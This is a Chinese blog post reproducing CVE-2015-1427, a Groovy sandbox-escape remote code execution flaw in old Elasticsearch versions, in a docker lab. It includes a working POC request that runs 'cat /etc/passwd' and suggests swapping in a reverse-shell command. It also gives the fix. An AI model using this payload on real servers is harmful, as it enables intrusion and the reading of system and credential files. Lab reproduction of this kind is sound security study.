



# 漏洞复现-CVE-2015-1427-Groovy 远程代码执行 - 铺哩 - 博客园

> 原文：[`www.cnblogs.com/cute-puli/p/14434200.html`](https://www.cnblogs.com/cute-puli/p/14434200.html)

# 0x00 实验环境

攻击机：Win 10

靶机也可作为攻击机：Ubuntu18 （docker 搭建的 vulhub 靶场）

# 0x01 影响版本

Elasticsearch 1.3.0-1.3.7 和 1.4.0-1.4.2 

# 0x02 漏洞复现

**简介**：ElasticSearch Groovy 脚本被爆出存在远程代码执行漏洞



该版本存在漏洞风险！！！

与上一篇代码执行一样，这次的执行方式也是，需要首先使用 ElasticSearch 的目录**创建数据**，创建成功将如下图所示：

```
POST /website/blog/ HTTP/1.1 Host: yourIP:9200 Accept: */* Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

{
  "name": "hello1"
}
```


 然后直接使用**POC**进行代码执行：

```
POST http://target:9200/_search?pretty 
{"size":1,"script_fields": {"test#": {"script":"java.lang.Math.class.forName(\"java.io.BufferedReader\").getConstructor(java.io.Reader.class).newInstance(java.lang.Math.class.forName(\"java.io.InputStreamReader\").getConstructor(java.io.InputStream.class).newInstance(java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /etc/passwd\").getInputStream())).readLines()","lang": "groovy"}}}
```



 以 POST 的方式提交，可以修改 cat etc/passwd 命令为其他反弹 shell 的命令，具体可以参考上一篇命令执行文章。



# 0x03 实验原理

```
**参考：**https://www.cnblogs.com/sxmcACM/p/4435842.html
```

2014 年爆出的(**CVE-2014-3120**)，由于搜索引擎支持使用脚本代码(**MVEL**)作为表达式进行数据操作，攻击者可以通过 MVEL 构造执行任意 Java 代码，后来脚本语言引擎换成了 Groovy，并且加入了沙盒进行控制，危险的代码会被拦截，结果这次由于沙盒限制的不严格，导致远程代码执行。修复：修改 elasticseach.yml 的 script.groovy.sandbox.enabled 为 **false**。